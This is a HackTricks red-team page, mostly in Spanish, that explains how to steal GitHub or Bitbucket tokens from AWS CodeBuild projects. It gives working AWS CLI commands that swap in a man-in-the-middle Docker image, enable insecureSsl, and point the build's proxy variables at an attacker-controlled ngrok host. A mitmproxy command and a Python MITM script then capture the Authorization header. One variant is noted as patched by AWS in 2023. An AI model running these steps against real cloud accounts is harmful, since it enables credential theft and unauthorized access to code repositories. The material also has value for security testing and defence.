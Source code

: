 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recuperar Tokens Configurados de Github/Bitbucket

Primero, verifica si hay credenciales de origen configuradas que podrías filtrar:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si encuentras que la autenticación, por ejemplo, a Github está configurada en la cuenta, puedes **exfiltrar** ese **acceso** (**token de GH o token de OAuth**) haciendo que Codebuild **utilice una imagen de docker específica** para ejecutar la construcción del proyecto.

Para este propósito, podrías **crear un nuevo proyecto de Codebuild** o cambiar el **entorno** de uno existente para establecer la **imagen de Docker**.

La imagen de Docker que podrías usar es [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta es una imagen de Docker muy básica que establecerá las **variables de entorno `https_proxy`**, **`http_proxy`** y **`SSL_CERT_FILE`**. Esto te permitirá interceptar la mayor parte del tráfico del host indicado en **`https_proxy`** y **`http_proxy`** y confiar en el CERT SSL indicado en **`SSL_CERT_FILE`**.

1. **Crea y sube tu propia imagen de Docker MitM**
* Sigue las instrucciones del repositorio para establecer tu dirección IP de proxy y configurar tu certificado SSL y **construir la imagen de docker**.
* **NO CONFIGURES `http_proxy`** para no interceptar solicitudes al endpoint de metadatos.
* Podrías usar **`ngrok`** como `ngrok tcp 4444` para establecer el proxy en tu host.
* Una vez que tengas la imagen de Docker construida, **cárgala en un repositorio público** (Dockerhub, ECR...)
2. **Configura el entorno**
* Crea un **nuevo proyecto de Codebuild** o **modifica** el entorno de uno existente.
* Configura el proyecto para usar la **imagen de Docker generada previamente**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Configura el proxy MitM en tu host**

* Como se indica en el **repositorio de Github**, podrías usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **versión de mitmproxy utilizada fue 9.0.1**, se informó que con la versión 10 esto podría no funcionar.
{% endhint %}

4. **Ejecutar la construcción y capturar las credenciales**

*   Puedes ver el token en el encabezado de **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Esto también se podría hacer desde la aws cli con algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** projects have a setting called **`insecureSsl`** that is hidden in the web you can only change it from the API.\
Habilitar esto permite a Codebuild conectarse al repositorio **sin verificar el certificado** ofrecido por la plataforma.

* First you need to enumerate the current configuration with something like:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Luego, con la información recopilada, puedes actualizar la configuración del proyecto **`insecureSsl`** a **`True`**. El siguiente es un ejemplo de cómo actualicé un proyecto, nota el **`insecureSsl=True`** al final (esto es lo único que necesitas cambiar de la configuración recopilada).
* Además, agrega también las variables de entorno **http\_proxy** y **https\_proxy** apuntando a tu tcp ngrok como: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Luego, ejecuta el ejemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) en el puerto señalado por las variables de proxy (http\_proxy y https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, haz clic en **Construir el proyecto**, las **credenciales** serán **enviadas en texto claro** (base64) al puerto mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~A través del protocolo HTTP~~

{% hint style="success" %}
**Esta vulnerabilidad fue corregida por AWS en algún momento de la semana del 20 de febrero de 2023 (creo que el viernes). Así que un atacante no puede abusar de ella más :)**
{% endhint %}

Un atacante con **permisos elevados en un CodeBuild podría filtrar el token de Github/Bitbucket** configurado o si los permisos fueron configurados a través de OAuth, el **token temporal de OAuth utilizado para acceder al código**.

* Un atacante podría agregar las variables de entorno **http\_proxy** y **https\_proxy** al proyecto de CodeBuild apuntando a su máquina (por ejemplo `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Luego, cambia la URL del repositorio de github para usar HTTP en lugar de HTTPS, por ejemplo: `http://github.com/carlospolop-forks/TestActions`
* Luego, ejecuta el ejemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) en el puerto señalado por las variables de proxy (http\_proxy y https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, haz clic en **Construir el proyecto**, las **credenciales** serán **enviadas en texto claro** (base64) al puerto mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ahora un atacante podrá usar el token desde su máquina, listar todos los privilegios que tiene y (ab)usar más fácilmente que usando el servicio CodeBuild directamente.
{% endhint %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
